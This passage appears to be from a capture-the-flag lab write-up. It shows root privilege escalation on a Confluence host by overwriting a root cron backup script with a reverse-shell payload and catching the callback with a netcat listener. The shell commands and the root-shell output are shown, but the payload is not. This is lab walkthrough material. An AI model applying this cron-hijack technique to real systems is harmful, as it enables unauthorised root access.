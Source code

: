 ```python
                                                                              
```

in a nutshell what the script does is to:

1. copy confluence logs to the root directory at `/root/backup`
2. compress the log file in to tar archive 
3. and finaly, for any file with prefix “log_backup_”  older than 5 minutes wil be cleared

one can assume here that this script might be executed by a cronjob, however after checking crontab related directory in /etc/ none yield a result.

root crontab can sometime not be found directly by browsing /etc but as confluence user if we had read access to /var/spool/cron/crontabs we might be able to know the cronjob frequency.

to confirm our assumption we can download a tool that can “spy” on the filesystem changes. and thanks to pspy we can achieve that [https://github.com/DominicBreuker/pspy](https://github.com/DominicBreuker/pspy)  but I am too lazy to do that for this context :) . If you never heared of pspy I hightly recommend playing with it.

to confirm our theory we can just replace the content of the backup script by the same python script used to get the initial foothold

```python

#first save the old script 
confluence@flu:/opt$ cp log-backup.sh /tmp/oldstate.sh
cp log-backup.sh /tmp/oldstate.sh 
# second replace the script by the revshell
confluence@flu:/opt$ cat /tmp/payload > log-ba*                                       
cat /tmp/payload > log-ba*                      
```

now setup a listener on port 443 and wait for a callback. and after a minute get a shell as user root

```python
┌──(kali㉿kali)-[~/Desktop/pg_ground/flu/CVE-2021-26084_Confluence]
└─$ nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.45.245] from (UNKNOWN) [192.168.157.41] 41638
# id
id
uid=0(root) gid=0(root) groups=0(root)
```

that’s it folks we are root !

# Beyond root

a quick look for a cronjob as user root we can clearly see the cronjob

```python

# crontab -l
crontab -l
# Edit this file to introduce tasks to be run by cron.
[..SNIP...] 
# For more information see the manual pages of crontab(5) and cron(8)
# 
# m h  dom mon dow   command

*/1 * * * * /opt/log-backup.sh

```

the script is supposed to be executed every 1 minute.